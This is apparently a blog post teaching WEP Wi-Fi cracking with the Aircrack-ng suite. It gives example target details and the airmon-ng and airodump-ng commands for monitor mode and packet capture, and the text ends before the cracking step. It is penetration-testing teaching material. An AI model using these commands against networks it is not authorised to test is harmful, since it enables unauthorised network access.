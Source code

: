 ```yaml
---
title: Attacking Wifi - WEP Scenarios
layout: post
categories: [Hacking, Pen Testing, Wireless, Aircrack-ng]
---
```


This post will build off of the [Attacking Wifi - Commands](https://lesperance.io/attacking-wifi-commands) post.  In this post, we will look at how to use the different commands in a series in different Wifi hacking scenarios.

## Cracking WEP with Connected Clients

Most technically savvy individuals know that WEP encryption is a serious no-no, though for various compatibility reasons, many corporate environments are still using WEP encryption in their wireless networks. 

** Target Information **
* **BSSID**: 34:08:04:09:3D:38
* **ESSID**: hitme (Open Authentication)
* **Client**: 00:18:4D:1D:A8:1F
* **mon0**: 00:1F:33:F3:51:13

### Initial Attack Setup

The first step in every attack scenario is to place the wireless interface in monitor mode on the same channel as the access point.

> root@attacker:~# **airmon-ng start wlan0 3**
> 
> Interface&nbsp;&nbsp;&nbsp;&nbsp; Chipset&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; Driver
>
> wlan0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;carl9170 - [phy0]<br />
> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;(monitor mode enabled on mon0)

This will set **wlan0** into monitor mode as **mon0**

### Recon

Now, an Airodump sniffing session needs to be started and write the capture file to the disk for usage by Aircrack-ng for breaking the WEP key

> root@attacker:~# **airodump-ng -c 3 --bssid 34:08:04:09:3D:38 -w wep1 mon0**



